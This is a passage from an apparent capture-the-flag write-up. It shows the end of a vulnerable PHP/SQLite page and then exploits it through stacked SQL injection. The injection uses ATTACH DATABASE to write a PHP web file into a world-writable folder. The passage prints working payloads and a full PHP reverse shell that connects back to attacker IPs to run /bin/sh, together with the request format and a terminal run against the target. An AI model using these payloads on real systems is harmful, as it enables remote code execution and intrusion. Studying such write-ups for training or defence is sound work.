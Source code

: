 	if (isset($no_results)) {
	   $ret = $db->exec($query);
	   if($ret==FALSE)
	    {
	    echo "Error : ".$db->lastErrorMsg();
	    }
	}
	else
	{
	   $ret = $db->query($query);
	   while($row = $ret->fetchArray(SQLITE3_ASSOC) ){
	      echo "Name = ". $row['name'] . "\n";
	   }
	   if($ret==FALSE)
	    {
	    echo "Error : ".$db->lastErrorMsg();
	    }
	   $db->close();
	}
	}
	?>
	</body>
	</html>


## SQLite Stacked SQL Injection 

In this file, it is written that the folder ```d9e28afcf0b274a5e0542abb67db0784``` is world-writable. More important, the param ```$query``` is not sanitized and could allow a Stacked SQL Injection. The database is a SQLite, so we could create a database file with some PHP inside. After some attempts, it looks impossible to run ```system```, ```shell```, ```systemshell```, ```popen``` and ```exec``` commands.

The payload therefore for the injection has to be something like this:

	ATTACH DATABASE './d9e28afcf0b274a5e0542abb67db0784/db.php' AS db; CREATE TABLE db.table (field TEXT); INSERT INTO db.table (field) VALUES (<?php'$s=fsockopen("10.10.16.44",9119);`/bin/sh -i <&3 >&3 2>&3`;?>');-- 

While the request has to be something like this:

<pre>/dev/sqlite_test_page.php?no_results=0&bookid=1<b>;</b></pre>

The whole payload has to be constructed like this:

	{REQUEST_URL_ENCODED}{PAYLOAD_DOUBLE_URL_ENCODED}

We run then the SQLInjection against our target:

	root@pentestbox:~# python break_rc4.py 32mbgmnqsu2rs11jcnbepejcis {REQUEST_HERE_ENCODED}{PAYLOAD_HERE_DOUBLE_ENCODED}
	<html>
	<head></head>
	<body>
	Opened database successfully
	Query : SELECT * FROM books WHERE id=1;ATTACH DATABASE './d9e28afcf0b274a5e0542abb67db0784/db.php' AS d; CREATE TABLE d.p (pp TEXT); INSERT INTO d.p (pp) VALUES ('<?php set_time_limit(0);$i="10.10.16.9";$p=91;$cs=1400;$sh="/bin/sh -i";$d=null;$e=null;$s=fsockopen($i,$p,$en,$es,30);$ds=array(0=>array("pipe","r"),1=>array("pipe","w"),2=>array("pipe","w"));$pr=proc_open($sh,$ds,$pp);if(!is_resource($pr)){exit(1);}stream_set_blocking($pp[0],0);stream_set_blocking($pp[1],0);stream_set_blocking($pp[2],0);stream_set_blocking($s,0);while(1){if(feof($s)){break;}if(feof($pp[1])){break;}$r=array($s,$pp[1],$pp[2]);$n=stream_select($r,$d,$e,null);if(in_array($s,$r)){$in=fread($s,$cs);fwrite($pp[0],$in);}if(in_array($pp[1],$r)){$in=fread($pp[1],$cs);fwrite($s,$in);}if(in_array($pp[2],$r)){$in=fread($pp[2],$cs);fwrite($s,$in);}}fclose($s);fclose($pp[0]);fclose($pp[1]);fclose($pp[2]);proc_close($pr); ?>');-- 
	</body>
	</html>
